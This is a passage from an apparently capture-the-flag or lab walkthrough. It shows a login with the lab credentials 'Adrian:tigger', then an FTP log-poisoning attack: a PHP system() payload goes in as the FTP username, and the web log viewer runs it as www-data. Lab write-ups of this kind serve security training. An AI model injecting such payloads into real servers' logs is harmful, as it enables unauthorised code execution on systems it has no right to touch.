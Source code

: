 With the password for the website it is no possible to successfull authenticate

with the user Adrian:tigger

![Login With adrian](./screenshots/loginadrian.jpg)

## Web exploit Port 80

The "view log" shows ftp logins and specially login names is interresting and could be used to do log poisoning.


![FTP logs](./screenshots/ftplogs1.jpg)

To test this theory, we try to login with a simple php command as username on the ftp server. 

```bash
─$ ftp 10.10.244.151
Connected to 10.10.244.151.
220 (vsFTPd 3.0.3)
Name (10.10.244.151:kali): <?php system('whoami'); ?>
331 Please specify the password.
Password:
530 Login incorrect.
ftp: Login failed
ftp>
```

viewing the source of the log page as Adrian shows we are running as www-data
